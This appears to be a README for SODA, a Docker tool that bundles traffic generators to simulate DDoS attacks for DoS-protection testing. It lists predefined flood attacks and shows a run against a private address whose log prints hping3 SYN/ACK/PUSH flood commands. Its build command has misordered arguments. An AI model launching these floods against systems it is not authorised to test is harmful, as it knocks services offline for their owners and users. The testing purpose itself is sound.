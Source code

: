# Simulation of DDoS Attacks
## Description
SODA wraps up together multiple traffic generation tools to symplify and unify DoS protection testing. It allows to send any kind DoS attack by specifying its name without figuring out flags for particular traffic generation tool.
Such approach also allows to standardize DoS posture testing because attack patterns are repeatable..
## Features
- Large list of predefined DoS attacks
- Sends single attack vector or morphs vector with predefined pattern and interval
- Automatically scales particular attack tool to multiple CPU cores
## Usage
1. Build SODA image
```
attacker@host$ docker build -t . soda
```
2. List all avaliable attacks and pick attack ID
```
attacker@host$ docker run --rm soda -l
0: TCP SYN Flood
1: NTP Flood
2: TCP SYN/ACK Flood
3: NTP Non-standard Port Flood
4: TCP Zero Sequence Flood
5: TCP ACK Flood
6: TCP PUSH/ACK Flood
```
3. Launch SODA
```
attacker@host$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock soda -d http://10.11.73.12/url.html -n vlan973 -i 3 -a 4
2019-08-01 18:20:30.350264 ATTACK START: TCP Zero Sequence Flood: hping3 -S -p 80 -M 0 --flood 10.11.73.12
2019-08-01 18:20:38.004443 ATTACK STOP: TCP Zero Sequence Flood
2019-08-01 18:20:38.034628 ATTACK START: TCP ACK Flood: hping3 -A -p 80 --flood 10.11.73.12
2019-08-01 18:20:45.697750 ATTACK STOP: TCP ACK Flood
2019-08-01 18:20:45.729307 ATTACK START: TCP PUSH/ACK Flood: hping3 -PA -p 80 -d 64 --flood 10.11.73.12
2019-08-01 18:20:53.370087 ATTACK STOP: TCP PUSH/ACK Flood
^CKilling all running containers...
goofy_keldysh
```
